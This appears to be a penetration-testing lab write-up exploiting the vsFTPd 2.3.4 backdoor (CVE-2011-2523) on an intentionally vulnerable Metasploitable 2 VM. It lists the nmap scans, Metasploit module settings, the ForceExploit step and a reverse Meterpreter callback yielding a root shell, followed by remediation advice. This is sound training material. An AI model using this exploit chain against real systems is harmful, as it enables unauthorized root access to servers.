




# vsFTPd 2.3.4 Backdoor Exploitation Lab

This lab documents exploitation of the vsFTPd 2.3.4 backdoor vulnerability in an isolated Metasploitable 2 environment. The activity was performed only against an intentionally vulnerable virtual machine for educational purposes.

## Objective

Identify the vulnerable FTP service on Metasploitable 2, exploit CVE-2011-2523 with Metasploit, troubleshoot failed session creation, and validate successful post-exploitation access.

## Lab Environment

### Attacker Machine

- Linux penetration testing workstation
- Tools used: Nmap, Zenmap, Metasploit Framework, Netcat
- Successful Metasploit listener address: `192.168.122.1`
- Successful listener port: `4444/tcp`

### Target Machine

- Target: Metasploitable 2
- Target IP: `192.168.122.229`
- Vulnerable service: `vsftpd 2.3.4`
- FTP port: `21/tcp`
- Post-exploitation kernel observed: `Linux metasploitable 2.6.24-16-server i686`

### Network

- Isolated virtual lab network: `192.168.122.0/24`
- No internet-facing systems were tested.
- The attacker and target were on the same virtual network during the successful exploitation attempt.

## Screenshots



*Nmap/Zenmap service discovery against the Metasploitable 2 target.*



*Metasploit search result, module selection, and required options for `exploit/unix/ftp/vsftpd_234_backdoor`.*



*Forced exploit attempt resulting in a Meterpreter session.*



*Interactive shell validation with `whoami` and `uname -a`.*

## Command Reference

- [Detailed command notes](notes/commands.md)
- [Metasploit setup resource](commands/metasploit-vsftpd-setup.rc)

## Enumeration

### Nmap Scan

Zenmap was used to run an aggressive service discovery scan against the target:

```bash
nmap -T4 -A -v 192.168.122.229
```

The scan identified multiple exposed services typical of Metasploitable 2. The most relevant finding for this lab was FTP on port `21/tcp`:

| Port | Service | Version / Note |
| --- | --- | --- |
| `21/tcp` | FTP | `vsftpd 2.3.4` |
| `22/tcp` | SSH | `OpenSSH 4.7p1 Debian 8ubuntu1` |
| `23/tcp` | Telnet | Linux telnetd |
| `25/tcp` | SMTP | Postfix smtpd |
| `53/tcp` | DNS | ISC BIND 9.4.2 |
| `80/tcp` | HTTP | Apache httpd 2.2.8 |
| `139/tcp`, `445/tcp` | SMB | Samba smbd |
| `1524/tcp` | bindshell | Metasploitable root shell |
| `3306/tcp` | MySQL | MySQL 5.0.51a |
| `5432/tcp` | PostgreSQL | PostgreSQL DB 8.3.x |

### Service Discovery

The `-A` scan option enabled service and version detection, which made the FTP version stand out immediately. A precise service banner is important because the vulnerability applies to a specific compromised vsFTPd 2.3.4 release, not every FTP server.

### SSH Enumeration

The Metasploit console context showed prior use of the SSH version scanner:

```text
auxiliary/scanner/ssh/ssh_version
```

SSH was confirmed open on `22/tcp`, with Nmap identifying `OpenSSH 4.7p1 Debian 8ubuntu1`. SSH was not the exploitation path in this lab, but it was part of the service inventory.

### FTP Enumeration

FTP enumeration identified the banner:

```text
220 (vsFTPd 2.3.4)
```

This version matched a known Metasploit module:

```text
exploit/unix/ftp/vsftpd_234_backdoor
```

## Vulnerability Identification

The identified service was `vsftpd 2.3.4`, which is associated with CVE-2011-2523. This vulnerability was not caused by a conventional programming flaw in upstream vsFTPd. It came from a maliciously modified source archive that introduced a backdoor into the `vsftpd-2.3.4.tar.gz` distribution.

According to NVD, affected downloads of vsFTPd 2.3.4 contained a backdoor that opened a shell on `6200/tcp`. Rapid7's Metasploit module documentation notes that the malicious archive was introduced between June 30, 2011 and July 1, 2011, and removed on July 3, 2011.

The target appeared vulnerable because:

- Nmap and the FTP banner identified `vsftpd 2.3.4`.
- Metasploit's automatic check reported that the target appeared vulnerable.
- Exploitation produced a privileged session in the lab.

Banner identification alone should not be treated as final proof of compromise. In this lab, exploitation and post-exploitation validation confirmed impact.

## Exploitation

### Module Search

The Metasploit module search returned two relevant vsFTPd modules:

```text
auxiliary/dos/ftp/vsftpd_232
exploit/unix/ftp/vsftpd_234_backdoor
```

The selected module was:

```text
use exploit/unix/ftp/vsftpd_234_backdoor
```

### Module Options

Running `show options` showed the required target and payload settings:

```text
RHOSTS  The target host(s)
RPORT   21
LHOST   The listen address
LPORT   4444
```

The module was configured with:

```text
set RHOSTS 192.168.122.229
set LHOST 192.168.122.1
```

### Initial Failure

The first mistake was entering `RHOST 192.168.122.229` as if it were a command:

```text
[-] Unknown command: RHOST.
```

The immediate syntax fix was to use `set`. For this module, the final target setting should use `RHOSTS`, which is the option shown by `show options`:

```text
set RHOSTS 192.168.122.229
```

The next run failed because `LHOST` was not set:

```text
Msf::OptionValidateError One or more options failed to validate: LHOST.
```

After that, `LHOST` was set to `192.168.29.255`. The exploit reported that the backdoor was spawned, but no session was created. This was likely because the selected payload was a reverse TCP Meterpreter payload, and the target could not successfully connect back to that listener address. The working listener address was later corrected to `192.168.122.1`, which was on the same virtual network as the target.

### Port 6200 Investigation

After the failed session attempt, Metasploit reported:

```text
The port used by the backdoor bind listener is already open/in-use (6200/TCP)
```

The port was checked manually:

```bash
nmap -p 6200 192.168.122.229
nc -v 192.168.122.229 6200
nmap -sV -p6200 192.168.122.229
```

The results changed from open to closed/refused during troubleshooting. This behavior matched the idea that the backdoor listener had been triggered during a previous attempt and was not in a clean state when Metasploit's automatic check ran again.

### ForceExploit

Metasploit aborted because the module could not reliably check the target state while port `6200/tcp` appeared in use. In this controlled lab, `ForceExploit` was enabled:

```text
set ForceExploit true
run
```

This bypassed the failed reliability check and allowed the exploit attempt to proceed.

### Successful Meterpreter Session

With `RHOSTS` set to `192.168.122.229`, `LHOST` set to `192.168.122.1`, and `ForceExploit` enabled, Metasploit opened a Meterpreter session:

```text
Meterpreter session 1 opened (192.168.122.1:4444 -> 192.168.122.229:54897)
```

This confirmed that the exploit chain worked in the lab environment.

## Post Exploitation

### Filesystem Access

Inside Meterpreter, `ls` listed the target filesystem root:

```text
bin
boot
dev
etc
home
root
tmp
usr
var
```

The listing showed interactive access to the target filesystem.

### Root Shell

The commands `uname -a` and `whoami` were first entered directly in Meterpreter, where they were not recognized as Meterpreter commands. An interactive system shell was then started:

```text
meterpreter > shell
Process 5155 created.
Channel 1 created.
```

The shell confirmed privileged access:

```bash
whoami
root
```

Kernel and host details were confirmed with:

```bash
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

## Lessons Learned

- `RHOST` by itself is not a Metasploit console command. Module options must be configured with `set`.
- Some modules display `RHOSTS` because they support one or more target hosts. `RHOST` may work as an alias in some contexts, but `show options` should be treated as the source of truth.
- Reverse payloads require the target to connect back to the attacker's `LHOST`. The listener address must be reachable from the target network.
- The vsFTPd backdoor behavior involves port `6200/tcp`, but the selected payload still used a reverse Meterpreter connection. This can make troubleshooting confusing if the backdoor listener is triggered but the reverse callback fails.
- `ForceExploit` should be used carefully. In this lab, it was appropriate only after validating the banner, reviewing the module behavior, and confirming that the target was an intentionally vulnerable machine.
- Exploitation should be validated with post-exploitation checks such as filesystem access, `whoami`, and `uname -a`.
- Screenshots should capture both the exploit result and the validation steps, not only the initial vulnerability scan.

## Remediation

The vsFTPd 2.3.4 backdoor was introduced through a supply chain attack on the official source archive between June 30 and July 1, 2011. Mitigation requires addressing both the vulnerable software and the underlying operational gap.

| Control | Action |
| --- | --- |
| Version upgrade | Upgrade vsFTPd to a verified post-2.3.4 release (e.g., 3.0.x) from the official distribution channel. |
| Integrity verification | Always verify PGP signatures or SHA-256 hashes of downloaded software against publisher-published values. |
| File integrity monitoring | Deploy FIM (e.g., AIDE, Tripwire, OSSEC) on production FTP servers to detect unauthorized binary modifications. |
| Egress filtering | Restrict outbound traffic from FTP servers to prevent reverse shell callback attempts. |
| Periodic scanning | Schedule service version scans to flag known vulnerable software versions. |
| Network segmentation | Place FTP servers in a DMZ with minimal connectivity to internal networks. |

## References

- [Metasploit Documentation: Running modules](https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html)
- [NVD: CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- [Rapid7 Module: VSFTPD 2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
